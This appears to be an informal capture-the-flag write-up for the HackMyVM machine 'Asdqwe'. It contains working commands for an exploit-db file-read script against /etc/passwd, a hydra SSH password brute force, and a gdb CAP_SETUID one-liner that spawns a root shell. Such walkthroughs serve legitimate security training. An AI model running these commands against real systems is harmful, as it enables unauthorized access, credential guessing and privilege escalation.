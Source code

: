 # ASDQWE
**network discovery**
```
I usually use __Fping__ command to watch active machines in my network  
```
![fping_image](images/fping.png)
```
i saw the __192.168.1.113__ is my the **CTF** machine 
![namp]https://github.com/HosseinVampire/Writeups/blob/main/Hackmyvm/Asdqwe/images/fping.png)
```

### FIND 8080 port lets check it
```
i did some search on site but nothing ....
only got this information 
```
![info](images/information.png)
```
i tried to brouteforce the login page but its seems to protected  so i got stuck 
```
##  Exploit-db
```
i check exploit-db  and this is result 
```
![exploit-db](images/searchsploit.png)
```
exploit number is  __51993__
i import the file and can read some files  
```
```bash
python 51993.py  -u http://192.168.1.113:8080 -p /etc/passwd
```
### Content of passwd :

![passwd](images/passwd.png)

```
users that have bash : Root , kali , penetration 
*i serched a lot for id_rsa or any password but nothing ...*
i spend a 30 min to figure the solution of gettin a shell it  .   
from the name of machine i thought that password might be a silly  so ...
```


## Hydra
**hydra -l kali -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  ssh://192.168.1.113**
![hydrapassword](images/hydra.png)

## PRIV ESC - ROOT
``` 
Getting root was easy 
check  capabilities and got below results :
```
[cap](images/setuiddiscovery.png)
```
Find *GDB* command that got capabilities 
```
```
**If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.**
```
# ROOT ACCESS :
```
**gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit**
```
DONE :)

![root](images/root.png)
```
it is my first write up, im sorry if i explained bad <3
```



## thanks to my friend ll104567 for tips 
### you can check his bilibili url 
its his biliblii url : [site](https://space.bilibili.com/20805349)